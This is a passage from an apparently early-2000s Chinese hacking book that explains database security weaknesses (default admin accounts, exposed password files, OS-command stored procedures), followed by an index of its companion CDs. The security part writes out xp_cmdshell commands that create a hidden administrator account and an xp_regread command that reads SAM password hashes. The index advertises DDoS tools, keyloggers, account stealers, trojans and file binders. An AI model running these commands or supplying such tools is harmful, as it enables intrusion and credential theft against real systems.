数据库应用程序通常都同操作系统的最高管理员密切相关。比如 Oracle、Sybase、MS SQL Server 数据库系统都有下面这些特点：用户帐号和密码，认证系统，授权模块和数据对象的许可控制，内置命令（存储过程），特定的脚本和程序语言（通常派生自 SQL），中间件，网络协议，补丁和服务包，数据库管理和开发工具。许多 DBA 都全日工作来管理这些复杂的系统。但是，安全漏洞和不当的配置通常会造成严重的后果，而且都难以发现。而且一些安全公司也忽略数据库安全，数据专家又不把安全作为主要职责。“网络安全适应性”哲学——把安全当作持续过程而不是一次性的检查——还没有被数据库管理员认可。

- 3. **网络和操作系统的安全被认为非常重要，但是却不这样对待数据库服务器**

安全专家认为这是一种普遍现象，他们都认为只要把网络和操作系统的安全搞好了，那么所有的应用程序也就安全了。现在的数据库系统都有很多方面被误用或者漏洞影响到安全。而且这些关系数据库都是“端口”型的，这就表示任何人都能够用分析工具试图连接到数据库上，而绕过操作系统的安全机制。比如：Oracle 7.3 和 Oracle 8 使用的端口是 1521 和 1526。多数数据库系统也有公开的默认帐号和默认密码。这两个特性大大地威胁着数据库的安全。

- 4. **少数数据库安全漏洞不光威胁数据库的安全，也威胁到操作系统和其他可信任的系统。**

这也是为什么数据库安全很重要的原因：有些数据库提供机制威胁着网络安全低层。比如，某公司的数据库里面保存着所有技术文档、手册和白皮书，不认为数据库的安全非常重要。

即使运行在一个非常安全的操作系统上，入侵者可能通过数据库获得操作系统权限，只需要执行一些内置在数据库中的扩展存储过程。这些存储过程能提供一些执行操作系统命令的接口，而且能访问所有的系统资源。如果这个数据库服务器还同其他服务器建立着信任关系，那么，入侵者就能够对整个区域机器的安全产生严重威胁。

- 5. 数据库是电子商务、ERP 系统和其他重要的商业系统的基础。

许多电子交易和电子商务的焦点都放在 Web 服务、Java 和其他技术上，那么对于以关系数据库为基础的客户系统和 B2B 系统，数据库就显得更加重要。安全将直接关系到系统可靠性、数据事务完整性和保密性。系统如果出现问题，将不仅仅对交易产生影响，同时也影响着公司的形象。这些系统需要对所有合作伙伴和客户信息的保密性负责，但是它们又同时是对入侵者开放的。另外，ERP 和像 SAP R/3 这样的管理系统都是建立在一些基本数据库系统上的。安全问题将直接同维护时间、系统完整性和客户信任密切相关。

## 需要注意那些安全漏洞？

传统数据库安全主要集中在用户帐号、规则和操作许可（比如对表和存储过程的访问权）上。而实际上，一个完全的数据库安全分析包含的范围宽得多，包括所有可能范围内的漏洞评定。下面是一些类别：

- 1) 软件风险。软件本身漏洞，没有安装操作系统补丁，脆弱的服务和不安全的默认配置等。
- 2) 管理风险。提供的安全选项不正确操作，默认设置，不正确地给其他用户提供权限，以及没有得到许可的系统配置改变等。
- 3) 用户行为风险。密码不够长，不恰当的数据访问和恶意操作（偷窃数据结构）等。

这些风险类别也同样适用于网络服务、操作系统。当加强数据库安全的时候，所有的因素都应该考虑。

### 数据库安全——弱点和例子

下面列出一些常用数据库服务器安全漏洞和配置缺陷。

## 一、安全特性缺陷。

大多数关系数据库已经存在 10 年了，都是成熟的产品。不幸的是，IT 和安全专家对网络和操作系统要求的许多特性在多数关系数据库上还没有被使用。

|  | MS SQL Server | Sybase | Oracle7 | Oracle8 |
|---|---|---|---|---|
| 帐号锁定 | N | N | N | Y |
| 管理员帐号重命名 | N | N | N | N |
| 帐号健壮性要求 | N | N | N | Y |
| 帐号失效 | N | N | N | N |
| 密码失效 | N | Y | Y | Y |
| 登录时间限制 | N | N | N | N |

由于这些数据库都是“端口性”的，操作系统核心安全机制不提供给数据库的网络连接。比如 MS SQL Server，可以使用 Windows NT 的安全机制来弥补上面的缺陷，但是，多数运行 MS SQL Server 的环境并不一定都是 100% 的 Windows NT。执行又是另一个问题。如果在运行 Oracle 8，管理员怎么知道这些安全特性正在被使用？

上面列举这些特性联合起来，将更加严重。由于系统管理员帐号不能改变（SQL Server 和 Sybase 是“sa”，Oracle 是“system”和“sys”），如果没有设置密码，入侵者就能直接登录并攻击数据库服务器，没有任何东西能阻止他们获得更高权限的系统帐号。

## 二、数据库帐号管理。

多数数据库提供的基本安全特性，都没有机制来限制用户必须选择“健壮”的密码。这就需要更加谨慎的控制和管理。也有一些额外的功能来管理和保护整个密码表。比如，Oracle 系统有超过 10 个特殊的默认用户帐号和密码，并且有特定的密码来管理一些数据库操作，比如数据库的启动，控制网络监听进程和远程数据库登录特权。许多系统密码都能给入侵者完全访问数据库的机会，更甚的是，有些就储存在操作系统中的普通文本文件中。比如：

- Oracle 内部密码，储存在 strXXX.cmd 文件中，其中 XXX 是 Oracle 系统 ID 和 SID，默认是“ORCL”。这个密码用于数据库启动进程，提供完全访问数据库资源。这个文件在 Windows NT 中需要设置权限。
- Oracle 监听进程密码，保存在文件“listener.ora”（保存着所有的 Oracle 执行密码）中，用于启动和停止 Oracle 的监听进程。这需要设置一个健壮的密码来代替默认的，并且必须对访问设置权限。入侵者可以通过这个弱点进行 DoS 攻击。
- Oracle 内部密码——“orapw”文件权限控制，Oracle 内部密码和帐号密码允许 SYSDBA 角色保存在“orapw”文本文件中，该文件的访问权限应该被限制。即使加密，也能被入侵者暴力破解。

这些只是一些例子。密码保护不仅只针对 Oracle，其他数据库系统一样需要。

## 三、操作系统后门。

多数数据库系统都有一些特性，来满足数据库管理员，这些也成为数据库主机操作系统的后门。

对于 Sybase 和 SQL Server 的帐号“sa”，入侵者可以执行“扩展存储过程”来获得系统权限。只要登录作为“sa”，就可以使用扩展存储过程 xp_cmdshell，这允许 Sybase和 SQL Server 用户执行操作系统命令，就好像在运行操作系统的命令行模式。比如，下面可以添加一个系统账号“refdom”，密码是“nopassword”，并且添加到 administrators 组中：

```sql
xp_cmdshell 'net user refdom nopassword /add'
go

xp_cmdshell 'net localgroup /add administrators refdom'
go
```

这就是因为 SQL Server 用 Windows NT 的本地账号“LocalSystem”来运行的命令。黑客还可以使用 xp_regread 来读取加密的 SAM 密码，然后再暴力破解。

```sql
xp_regread 'HKEY_LOCAL_MACHINE', 'SECURITY\SAM\Domains\Account', 'F'
```

注意，能读出加密的密码是 NT 的“administrator”账号也不能做。SQL Server 能读出来同样是使用的“LocalSystem”账号。

Oracle 有这样的特性，可以获得操作系统的文件访问权限。比如，UTL_FILE 允许用户读写文件，UTL_FILE_DIR 可以用来设置用户使用 UTL_FILE 来写文件。

#### 四、审核

主要信息和时间能被关系数据库的认证系统很详细地记录下来，但是，这只能在正确地使用和配置下才能起到安全和报警作用。这些功能能提前报警入侵者正在威胁数据库服务器，并且能探测和修复破坏。

#### 五、木马的威胁

数据库管理员需要特别小心，一个著名的木马能够在改变存储过程中修改密码，而且能通知入侵者。比如，可以添加几行到 sp_password 中，记录新账号到库表中，通过 EMAIL 发送这个密码，或者写到文件中以后使用。这个存储过程不断地获得密码，直到弄到“sa”的密码。

总之，安全专家、DBA 等等都需要注意数据库安全，就像他们配置系统一样。

# 配套光盘 A 内容索引

## 扫描工具

- 极速IP搜索客1.94——它的特色功能是探测出目标主机的操作系统，而且结果准确率很高。也可以对主机任意一个端口进行探测。
- X-Scan-v2.0-cn——采用多线程方式对指定IP地址段（或单机）进行安全漏洞检测，支持插件功能，提供了图形界面和命令行两种操作方式。
- Nmap-3.00-win32.zip——最优秀的扫描工具，这是它最新的 Windows 版本。
- Xray.1.35——针对各个单一漏洞的快速搜索工具。
- 强力共享资源搜索器

## 攻击程序

- 蓝雪攻击者V1.01——攻击对方掉线，完全傻瓜软件，最新版。
- 网吧破解器具集合——内含方竹程序破解器、美萍程序破解器、硬盘保护卡破解器等。
- 死机炸弹——运行后会使用户因同一消息框反复不间断地出现，以致内存不足而死机。
- 局域网超级工具——可搜索局域网内所有活动的计算机，搜索指定的某个计算机的共享资源，搜索所有计算机的所有共享资源等。
- 凶宝宝消息精灵 V2.2B——一个基于 NT 内核系统消息发送软件。
- 3389端口攻击器

## 字典工具

- 字典专家——可以对所输出密码的每一段进行定制，支持网址密码与姓名密码的输出。
- 易优超级字典生成器——采用高度优化算法，制作字典速度极快，加入了对大于2G硬盘的空间监测支持，同时修改了字典模块的 BUG。
- 生日密码生成器——新增37种密码输出形式，提供的密码输出形式达76种，新增多项功能。
- 字典专家——可以编制任意形式的密码。
- Txt2dic.zip——能把 TXT 文件里的单词抓出来作为*.dic字典的工具。
- Dist.zip——记录击键记录的工具，配置非常简单。
- 生日密码生成器——可以生成双写密码以及多套密码生成形式。
- 黑客字典

## 密码破解

- Zip Password Cracker——专业破解 zip 压缩包密码的工具。
- SMBCrack V4——SMBCrack 是小榕为流光5开发的测试原型，使用 SMB 的协议，修复漏报误报的问题。
- AccessDiver 汉化版——破解加密网页软件，其破解加密网页范围很广，包括各类网站的会员区。
- 星号密码克星——用来读取隐藏在星号*****后面的密码。
- AccessDiver v4.9——破解加密网页软件。
- PasswareKit50——一套密码恢复软件包，能恢复十七种密码软件。
- Pw Check 2.0 Pro——一个可以用来破解软件注册码、文件密码和其它种种密码的工具。
- 网络游戏密码窃取器
- Foxmail 破解

## 嗅探监听

- MyNetMon v1.0.3——运行在 Windows 平台上的网络监测和包分析工具。
- ARPKiller1.3——快速查出局域网主机的 IP，还可以做一些类似于抢 IP、IP 欺骗的勾当。
- Fxss10.zip——可以在交换环境下进行会话劫持嗅探的工具。
- X-Sniff——简易的命令行方式嗅探器，可捕获局域网内 FTP/SMTP/POP3/HTTP 协议密码。
- SnifferPro4.7——可以说是最好的嗅探器了，对网络管理员分析网络故障等级极为有用。
- Natas——Windows 平台下一个简单的嗅探器，应付一般的网络监视足够了。
- 网络间谍

## 后门程序

- lol.tar Natas——一个从肉鸡提取的 SUN ROOTKIT 的工具。
- Backdoor——一个 WIN2000 的后门工具。

## 光盘目录

**AllinOne 0.3**——红客联盟 LION 的后门工具。

**Srv1984**——可以躲过病毒防火墙。

**Cmd**——一个交互式的 cmd 工具。

**ICmd rk_044**——比 ncx.exe 及 ncx99.exe 还要好用。

**Root_040**

……

### 键盘记录

**Win2K 密码大盗**——在2.2版的基础上增加了一个超级用户。

**边锋盗号机**——带专用捆绑器，完美支持远程发送执行。

**联众盗号机**——联众盗号工具，支持 Win2000，支持捆绑。

**IOpus Star专业版**——可以记录键盘输入、用户名、密码、路径名、窗口标题等。

**传奇击键3.97**——《传奇在线》的专用击键记录工具，把登录时 ID 和密码等完整记录下来。

**密码专家V3.2**——是一个可截获各种密码的软件，采用了全程监控技术，截取成功率很高。

**跟踪者**

……

### 代理相关

**WinRoute Pro v5.0**——是一个集路由器、DHCP 服务器、DNS 服务器、NAT、防火墙于一身的代理服务器软件。

**Snake的代理跳板**——让机器成为 sock5 代理软件的程序，可以用它隐藏自己的 IP、上 QICQ，还有其它很多用途。

**代理三级跳**——只要在浏览器里的代理服务器里先添加上127.0.0.1，端口是888，然后在软件里添加你的防火墙或者一级、两级、三级代理就可以了。

**代理猎手3.1**——有名的代理服务器搜索软件，对 HTTP 代理地址和端口的搜索功能非常强大，改进了对 Win2000 的兼容性。

**SocksCap32 2.1版**

……

### 结合工具

**广外文件捆绑器2002**——可以把多个 EXE 文件合并的国产工具。

**EXE 捆绑机XP版**——非常好用的捆绑工具。

**Multi Binder Essentials1.3**——支持无限数量的档案进行同时结合，包括 EXE 和 BAT 格式。

**Join155**——可将 EXE 文件和任何档案结合，包括图片文件、声音文件等。

**开山文件合并器**——新增了压缩功能，合并后的文件自动进行压缩，使合并后的文件更小。

**GH**——可把 EXE 或者 ZIP 文件隐藏到 GIF 文件中的工具，而且 GIF 图像还可以正常显示。

**SilkRope V2000**

……

### 拒绝服务

**独裁者DDoS攻击器**——控制大量 Server 进行 DDoS 的工具，有 SYN、LAND、FakePing、狂效之Ping 4种攻击方法。

**LAND Attack v1.5**——进行 LAND 洪水攻击的工具，Win32 版本。改进了发送数据的算法。

**SYN潜伏攻击者**——Lion SYN 写的扩展 GUI 界面，实现了隐藏攻击的功能。

**DDOS-Fukcnet**——新出的一个国产纯粹 DDOS 攻击工具。

**Nukcu V1.0**——超过20多种的 ICMP 攻击指令，可以自设目标端口和传送封包体积。

**DDOS Ping V2.00**——可以对一连串的网络位置主机和服务器进行查询和指令攻击。

**Kaput V1.5**——FINGER 密集轰炸程序。

**DC Of Death**——拒绝服务程序。

……

## ICQ&IRC

**ICQ Password Grabber**——ICQ密码小偷1.0。

**Icqfly18**——国产的一个远程挂字典破解 ICQ 密码的工具。

**DFM**——可以攻击 ICQ 和查看 ICQ 隐身人的小工具。

**AZRail4**——最好的 MIRC 攻防工具，很好的变谈方式，有炸弹及木马扫描等功能。

**ICQr Information V1.5**——可以查看 ICQ 的 DAT 文档，包括个人信息、网络信息、密码等。

**ICQ Interest Search V5.0**——隐藏你真实的 IP，可匿名发信息。

**LingoWare**——让你的 ICQ 变成简体中文，对于不习惯使用 ICQ 英文界面的人很有用。

**ICQ AD Remover 2000b**——可清除 ICQ 上的广告。

……

### 恶作剧类

**《情书》深情版**——适用于各版本 Windows 系统下的一个小迷恋程序。

**蓝雪整人者**——运行13秒之后屏幕倒转180度，图标是一个文件夹，很容易受骗。

**Game**——一个无恶意的恶作剧工具，会把人作弊得颠三倒四，呵呵!!!

**恶作剧录像**——减肥（人体减肥）良药，瘦人勿看！一切后果自负！！

**恶作剧工具包**——想吓唬吓唬别人用这个工具最合适不过了。

**SelfCloner.rar**——一个类似“冤魂不散之女鬼”的整蛊程序，但比那个女鬼恐怖多了。

**Gxfc**——国产作弄人的程序，与人民币有关，呵呵，无危险的。

## 光盘目录

**Noice.zip**——一个恶作剧软件。运行后出现永久性的刺耳声！

**《愚人节》**——一个用来开玩笑的小东西！附加恢复程序。

……

### 其他综合

- **Vr**——路由跟踪、IP解析，可以用地图来表示经过哪里等，直观生动。
- **MS SQLServer 工具集合**——包含有 SQLPing、SQLScanner、SQLDOS 等工具。
- **File Pulverizer v4.1**——最方便、最强大的文件彻底删除工具。
- **NetInfo v4.4**——著名的网络工具箱 NetInfo，其功能相当完善。
- **WhereisIP v2.20**——一个可以让你知道 IP 的地理位置及 IP 相关信息的网络工具。
- **IP-Tools v2.08**——网络综合工具。
- **Web Encrypt**——一个可以帮助你加密保护自己网站和网页的工具。
- **AtomPark Tags Lock Pro**——是一个网页加密工具。声称可以做到一键加密。
- **天眼 1.0.5**——在上网的过程中就能收集很多网络信息，如 IP、地理位置、域名等。
- ……

### 杀毒工具

- **Trojan Remover4.8**——一个专门用来清除特洛伊木马和自动修复系统文件的工具。
- **木马克星 iparmor v5.36.32**——可以查杀5021种国际木马，不仅可以查杀木马，还可以查黑客。
- **Dr.Web for windows v4.28**——基因式扫描杀毒软件。可以预防并清除22000种以上的病毒。
- **求职信专杀工具**——可以查杀最新的“求职信”病毒变种，完全清除“求职信”病毒家族。
- **AVP 3.5.1.6 Platinum**——俄罗斯软件公司的产品，是一个在国外评价极高的杀毒软件。
- ……

### 网络安全

- **天网防火墙个人版**——著名的个人电脑网络安全防护程序。
- **BlackICE 3.5**——对于没有防火墙的家庭用户来说，BlackICE 是一道不可缺少的防线。
- **LockDown**——最棒的网络安全工具。
- **McAfee Firewall**——个人防火墙软件，它可保护你免受来自 Internet 的黑客和木马程序等攻击。
- **ZoneAlarm**——是很受欢迎的个人防火墙程序，使用方便，个人使用免费。
- **美萍反黄专家**——一款功能强大的反黄软件，适用于公共机房、网吧等。
- **护花使者**——著名反黄软件，对黄色网站、文件、软件、VCD 等都能起到反黄作用。
- **International PGP**——对邮件、文件的加密与签名，由一个私人密码和一个公用密码组成。
- ……

### 远程控制

- **网络神偷**——一个专业级的远程文件访问工具，功能强大。
- **灰鸽子挺进版**——新型局域网木马。
- **IE 远程控制软件**——日本机构编制的远程控制软件。
- **远控小精灵**——可查看目录，执行程序，打开文件或目录，删除指定文件，重启系统等等。
- **冰河XP版本**——国内最著名的木马。
- **WinShell5.0**——一个运行在 Windows 平台上的 Telnet 服务器软件。
- **黑洞**——特点主要是屏幕传输，在 INTERNET 上传一幅只要1~4秒，是目前其它木马比不了的。
- **广外幽灵**——可以截取到 Windows 窗体中的星号密码，可以记录键盘活动等。
- **黑暗天使2.5**——是一个结合窃听密码和远程控制于一体的木马。
- **黑冰1.0**
- ……

### 系统监视

- **Be2cur**——全面监视系统的一举一动。
- **宏记录工具**——能帮你完成自动重复的工作，而无需使用脚本语言编制。
- **RedHand**——“偷偷”地记录电脑的使用情况，离开了也能全面掌握计算机的使用情况。
- **Wpi251**——定时抓取屏幕，让你知道别人在你的机器上干了些什么。
- **Netspy.exe**——可以自动记录访问过的 Internet 站点。
- **Ghost Keylogger**——驻留在后台，悄悄记录下所有的按键。
- ……

### 密码管理

- **Pwd2k285**——简单好用的口令生成及管理工具。
- **超级密码卫士**——一款用来管理日常生活和网上生活中众多密码的专业密码管理软件。
- **Pnp2c**——是否在为找一个不易被猜出来又容易记忆的密码而烦恼呢？它可以帮你。
- **Pwagn**——将所有的密码存在容易查询、安全性高的资料库中。你只要记忆一个密码就可以了。
- **Cspassword**——可随手查阅您的密码文件，不再需要记忆密码。
- **Infokeep**——功能极其全面的 WINDOWS 密码管理工具。
- **密码产生器**——与数据库结合，可以直接生成 Access 数据库文件。
- ……

## 配置光盘 B 内含索引

## 安全教程

- **521hacker**——为您提供一幅洞悉黑客神秘智力杀拼的全景图像。
- **看雪学院破解精华文章**——收集2000年元月—2001年9月看雪论坛的精华文章1400余篇。
- **《黑客的攻击手段及用户对策》**——用 PDG 格式超星阅读器阅读。
- **绿盟月刊1—25期**——网络安全与黑客学习应用。
- **《网络最菜黑客指南》**——从黑客工具到系统漏洞，从 Windows NT 到 UNIX/LINUX，从 Asp 漏洞到数据库漏洞，HTML 格式教程。
- **水木清华相关精华区Security文章**
- **冰河/Superscan/Netbus截取QQ密码全过程**
- **《黑客攻防指南》**
- **黑客速成**

## 安全防御工具

- **East-Tec Eraser 2002**——一款 Windows 中保护电脑中隐私的安全软件，用软硬件都不能恢复。
- **LANguard File Integrity Checker 1.0**——可以监视指定 Windows NT/2000 系统目录中的文件变动，如有异常发生，会通过 MAIL 通知系统管理员。
- **Recover4all Professional v2.09**——能将刚删除的文件找出来，软件只能在 Win95/98 执行。
- **唐朝卫士1.58**——唐朝工作室出品的唐朝卫士是一个功能强大的维护系统安全的软件。
- **Steganos Security Suite v4.13**——一套功能完整、简单易用的加密工具包。
- **WebTrends Security Analyzer3.5a**——可自动检测安全漏洞，并提供如何修复漏洞的信息。
- **系统护卫 v1.0**——可以让死机成为“历史”的软件。
- **东方卫士系统漏洞专杀工具**
- **网络新手反黑客实用工具箱**
- **账号策略终结者2.0版**

## 加密工具

- **Tom加密 V3.3**——适用各类文件加密、解密的工具，简单、高效、保密性强。
- **加密金刚锁 V4.9**——全中文界面，方便易用，功能强大，能加密任意类型任意长度的文件。
- **密码大师 V5.0**——著名加密工具软件。
- **SecureBurn v0.2**——可以制作被密码严密保护的光盘。使用时输入了正确的密码方可运行。
- **数码卫士 V1.0**——一个专业文件加密工具，兼有压缩功能，采用了国际先进加密技术。
- **SecureDisk**——为您提供全面的数据安全防护，具有数据安全存储和灵活的访问控制功能。
- **ProgLock V1.64**——可以将任何文件上锁，包括 EXE 执行文件也可以。
- **红色密使1.0个人版**

## 优化配置

- **神奇注册表 V1.81**——一个注册表修改、优化软件。
- **NVIDIA BIOS Editor V1.0RC2 汉化版**——NVIDIA 系列显卡编辑工具最新汉化版。
- **注册之剑 V1.0**——一款修改系统设置的工具。
- **Tweak-XP V1.34.1**——针对 Windows XP 的优化调整工具。
- **变速精灵XP V1.01**——一个可以改变 Windows 软件速度的神奇软件。
- **变速齿轮 V0.23b**——一个可以神奇改变游戏速度的程序。
- **超级兔子软件优化 V4.0**——最全面的 Windows 加速软件，包含：开机加速、自动运行程……
- **超级兔子魔法设置 V4.6**——超级兔子魔法设置是特别为中国用户设计的系统设置软件。
- **Windows优化大师 V4.9 Build 808**——可以对 Windows 系列进行较全面的修改和优化。
- **睿光系统修改器 V3.0**——可以禁用键盘鼠标，禁用系统键，修改系统注册表等等。
- **RivaTuner V2.0 RC 11.1**——NVIDIA 系列显示卡最强而有力的微调修正工具。
- **VIA 4-in-1 Driver V4.42v**——最新 VIA 4 in 1 驱动程序。
- **系统修理大师XP V2.1**——功能强大，集系统修理、设置、维护、优化四大功能于一身。

## 系统补丁

- **Java VM for WinXP**——WinXP+IE6.0 的环境中需要自己安装 JAVA 虚拟机。
- **IE V6.0安全补丁**——微软公司2002年8月22日晚些时候发布的 IE 网络浏览器累积补丁，修复了程序中的6个新的安全漏洞。
- **Windows Mediaplayer 9.0**——微软媒体播放器的最新版本。
- **Windows2000 sp3 中英文版**——适用于 Windows2000 中英文各版本。
- **Installer v2.0.2600.2**——新的 Installer 提供了使用命令行安装、增加了用户的可定制性。
- **VB 运行库**——很多程序的运行都需要。
- **Office XP SP 2 简体中文版**
- **微软自动系统更新程序**